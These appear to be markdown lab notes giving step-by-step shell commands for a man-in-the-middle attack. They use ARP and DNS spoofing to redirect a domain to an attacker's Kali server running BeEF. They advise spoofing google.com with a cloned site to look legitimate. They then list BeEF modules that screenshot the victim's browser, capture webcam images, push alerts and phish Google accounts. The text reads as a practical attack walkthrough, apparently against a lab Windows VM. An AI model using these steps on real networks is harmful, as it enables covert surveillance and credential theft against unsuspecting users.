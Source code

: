 Show network details
```sh
net.show
```

Set target (i may need to activate full duplex)
```sh
set net.spoof.targets <target-ip>
```

Start spoof
```sh
net.spoof on
```

Optionally, start sniffing the network
```sh
net.sniff on
```

Start our Kali server
```sh
sudo service apach2 start
```

Setup the re-direction
```sh
set dns.spoof.domains mywebsite.com
```
- Here it would be better to use something like `google.com` as the domain. You could also use a tool, like SET or httrack, to create a copy of google.com so it looks more legit.

Start DNS spoof 
```sh
dns.spoof on
```

Start beef
```sh
sudo beef-xss
```

Now we can go to `mywebsite.com` on the Windows VM which should add the computer to our beef panel UI. Try refreshing the beef panel if it doesn't show up.

Some of the most important things that you can do in beef are located in the commands tab.

Here are some of the commands:
- Spider Eye - Take a picture of the browser window.
	- you can see the results in `module results history` by clicking on the command listed
- WebCam HTML5 - Captures webcam images
- Play Sound - Play a pre-selected sound from the attacker's PC
- Create Alert  - Write a message to the victims browser

Hacking a google account with phishing located in the commands tab under social engineering Google Phishing.
